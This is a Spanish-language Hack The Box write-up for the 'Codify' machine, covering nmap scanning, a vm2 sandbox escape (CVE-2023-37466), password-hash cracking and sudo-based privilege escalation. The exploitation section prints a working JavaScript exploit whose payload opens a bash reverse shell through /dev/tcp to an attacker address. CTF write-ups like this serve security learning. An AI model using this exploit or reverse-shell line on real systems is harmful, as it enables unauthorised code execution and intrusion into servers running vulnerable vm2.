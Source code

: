 # Codify

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205144333.png?raw=true |350)

Write Up
--------

Codify es una máquina Linux donde explotaremos una vulnerabilidad en **vm2** (una biblioteca popular que se utiliza para ejecutar código no confiable en un entorno aislado en Node) 

Para comenzar, nos tenemos que asegurar de que la máquina está activa. Para ello mandamos una traza ICMP `ping -c 1 <IP>`, si está activa nos devolverá este mensaje &rarr; `1 packet emitted, 1 packet received` . La máquina está activa.

Una vez nos aseguramos de que la máquina está activa, pasamos a la fase de **reconocimiento**

#### Reconocimiento

Empezamos la fase de reconocmiento. Para ello hacemos uso de la herramienta **Nmap**, que nos permitirá reconocer los puertos que están abiertos. Existen 3 tipos de estados en cuanto a puertos.
1) Abierto (open)
2) Cerrado (closed)
3) Filtrado (filtered) &rarr; El puerto está protedigo por un firewall

Para enumerar los puertos abiertos, utilizaremos el siguiente comando:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP> -oN allPorts
```

Esto hará que un escaneo de los 65535 puertos y nos devolverá en un archivo los puertos que están abiertos. 

En este caso, odemos observar estos puertos abiertos:

![[Pasted image 20231205145448.png | 900]]

Como podemos observar, tenemos 3 puertos abiertos. 
- 22 (ssh)
- 80 (http)
- 3000 (ppp)

Para obtener más información acerca de estos puertos, ejecutamos el siguiente comando:

```bash
nmap -sCV -p22,80,3000 <IP> -oN targeted
```

Ejecutando este comando, **nmap** ejecutará un conjunto de scripts donde nos proporcionará información sobre los servicios y versiones que corren por detrás de cada puerto. En este caso:

![[Pasted image 20231205150042.png | 800]]

#### Explotación

Si nos metemos en la web mediante la IP, nos sale lo siguiente:

![[Pasted image 20231205150259.png | 600]]

**¿Cómo podemos solucionar esto?**

Este error significa que la dirección IP asociada con ese dominio, no se está resolviendo correctamente. Para resolverlo, tenemos que añadir esa dirección al `/etc/hosts`

![[Pasted image 20231205150753.png]]

Esto hará que cuando pongamos la dirección IP en la url del navegador, se resolverá a la dirección de dominio **`codify.htb`**

Al guardar el archivo y refrescar la web:

![[Pasted image 20231205151222.png | 1000]]

Si nos vamos a la ventana de *About Us*: 
![[Pasted image 20231205151434.png | 1000]]

Podemos ver que en el editor, está implementada la librería **vm2**.

**¿Qué es vm2?**

> VM2 es un módulo en Node.js que permite ejecutar código JavaScript de forma aislada y segura en un entorno controlado. Esta biblioteca proporciona funcionalidades para crear instancias de máquinas virtuales en las cuales puedes ejecutar scripts de JavaScript sin afectar el entorno principal de la aplicación.

Esta librería, tiene una vulnerabilidad. La **[CVE-2023-37466](https://github.com/advisories/GHSA-cchq-frgv-rjh5)** 

Esta vulnerabilidad nos permite una ejecución remota de comandos.

Si en el editor, ejecutamos el siguiente exploit:

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

Y nos ponemos en escucha con **netcat** en el puerto especificado:

![[Pasted image 20231205152257.png | 1000]]

Una vez hemos conseguido una **reverse shell**, seguiremos con el tratamiento de la TTY.

Mediante los siguiente comandos:

- **`script /dev/null -c bash`**
- **`Hacemos Ctrl + Z`**
- **`stty raw -echo; fg`**
- **`Escribimos: reset`**

Y una vez estemos de nuevo en la terminal:

- **`export TERM=xterm`**

Y ya tendríamos una consola en condiciones.

El usuario con el que estamos conectados es: **`svc`** 

Si nos vamos a la ruta **`/home`** vemos que hay un usuario **`joshua`** al cual no podemos acceder, por lo que tendremos que conseguir las credenciales de este usuario.

Vamos a donde está almacenada la web: **`/var/www/`** y aquí tenemos 3 carpetas. **`contact`**, **`editor`** y **`html`**

Nos metemos en la carpeta **`contact`** y hacemos un cat del archivo `tickets.db`

![[Pasted image 20231205170029.png |800]]

Como podemos comprobar, tenemos el usuario: `joshua` y la contraseña que es todo lo que sigue. La cual está hasheada.

Para poder dehashear la contraseña, utilizaremos **john the ripper**. 

![[Pasted image 20231205170214.png |600]]

La contraseña es: **spongebob1**

Con esas credenciales, tenemos dos opciones. O nos metemos mediante el SSH que hemos visto que está abierto, o desde la propia terminal que tenemos abierta, hace un **`su joshua`**
e introducir la contraseña. Yo he preferido quedarme en la terminal que tengo abierta, ya que he tratado la TTY por lo que es lo mismo.

Y haciendo **`ls`** encontramos la *flag* de **user** por lo que nos quedaría encontrar la flag de root.

#### Escalada de privilegios

El útlimo paso sería escalar privilegios en la máquina.

En primer lugar, podemos buscar los programas con permisos **SUID** que podamos ejecutar como usuario **`joshua`**.

Para encontramos esos archivos:

```bash
find / -perm -4000 2>/dev/null
```

De los programas que salen, no podemos utilizar ninguno ya que no tenemos permisos de ejecución.

Por lo que probamos con otro comando:

```bash
sudo -l
```

![[Pasted image 20231205171125.png |900]]

Vemos que tenemos ese archivo.

![[Pasted image 20231205171323.png]]

**Casualmente** en el direcotrio 'joshua' hay un script programado en python que ejecuta el programa **`mysql-backup.sh`**, el cual, al ejecutarlo, nos va a mostrar la contraseña de root.

![[Pasted image 20231205171621.png | 600]]

Por último:

![[Pasted image 20231205171744.png | 500]]

### Hasta aquí :)
